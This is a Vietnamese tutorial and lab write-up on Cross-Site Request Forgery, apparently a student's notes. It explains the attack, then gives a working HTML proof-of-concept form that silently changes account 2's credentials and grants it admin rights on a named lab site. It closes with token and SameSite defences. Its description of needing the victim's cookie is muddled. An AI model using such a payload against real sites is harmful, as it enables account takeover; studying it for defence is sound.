


Người thực hiện: Lê Trần Văn Chương
Ngày: 18/04/2022
Mục luc:
- [CSRF](#csrf)
- [Lab](#lab)
- [Phòng chống](#phòng-chống)

## CSRF
- Cross-Site Request Forgery (CSRF) là một cuộc tấn công buộc người dùng cuối thực hiện các hành động không mong muốn trên ứng dụng web mà họ hiện đang được xác thực. Nếu nạn nhân là người dùng bình thường, một cuộc tấn công CSRF thành công có thể buộc người dùng thực hiện các yêu cầu thay đổi trạng thái như chuyển tiền, thay đổi địa chỉ email của họ,... . Nếu nạn nhân là tài khoản quản trị, CSRF có thể xâm phạm toàn bộ ứng dụng web.
- CSRF là một cuộc tấn công đánh lừa nạn nhân gửi một yêu cầu độc hại. Nó kế thừa danh tính và đặc quyền của nạn nhân để thay mặt nạn nhân thực hiện một chức năng không mong muốn. Hầu hết các trang web, các yêu cầu trình duyệt tự động bao gồm bất kỳ thông tin đăng nhập nào được liên kết với trang web, chẳng hạn như cookie người dùng, địa chỉ IP, thông tin đăng nhập,... . Do đó, nếu người dùng hiện đã được xác thực vào trang web, trang web sẽ không có cách nào để phân biệt giữa yêu cầu giả mạo do nạn nhân gửi và yêu cầu hợp pháp do nạn nhân gửi.
- CSRF tấn công chức năng nhắm mục tiêu gây ra thay đổi trạng thái trên máy chủ, chẳng hạn như thay đổi địa chỉ email hoặc mật khẩu của nạn nhân hoặc mua thứ gì đó.

## Lab
- Link: 
    - Victim: https://00bluec10.000webhostapp.com/index.php
    - Attack: https://php-bacsic.000webhostapp.com/
- Để có thể attack vào trước tiên user phải login vào trước để có thể `Cookie` của user đó để attack.
- Khi user đã login và lấy được `Cookie` thì ta gửi cho user host đã chuẩn bị sẵn để user nhấn vào bắt đầu đổi thông tin,... 
- Dưới đây là 1 đoạn `Code` html đơn giản để có thể đổi user có `accountId=2` những thông tin đã nhập trong form sẵn và chuyển user này thành `Admin`:
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://00bluec10.000webhostapp.com/EditAccount.php?accountId=2" method="POST">
      <input type="hidden" name="username" value="CSRF" />
      <input type="hidden" name="email" value="csrf@gmail.com" />
      <input type="hidden" name="password" value="asd" />
      <input type="hidden" name="role" value="1" />
      <input type="hidden" name="editUser" value="Edit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
- Trước khi attack


- Sau khi attack


## Phòng chống
- Cách dễ dàng nhất là ta sẽ thêm vào form 1 cái `token` nếu mà gửi lên server mà không có cái token này thì nó sẽ hiện lỗi.
```html
<form action="/ex.com" method="post">
<input type="hidden" name="CSRFToken" value="OWY4NmQwODE4ODRjN2Q2NTlhMmZlYWEwYzU1YWQwMTVhM2JmNGYxYjJiMGI4MjJjZDE1ZDZMGYwMGEwOA==">
[...]
</form>
```
- Hoặc có thể dùng thuộc tính `Samsite` của `Cookie` để phòng chống và đặt `SameSite=Strict` sẽ ngăn trình duyệt gửi cookie đi.

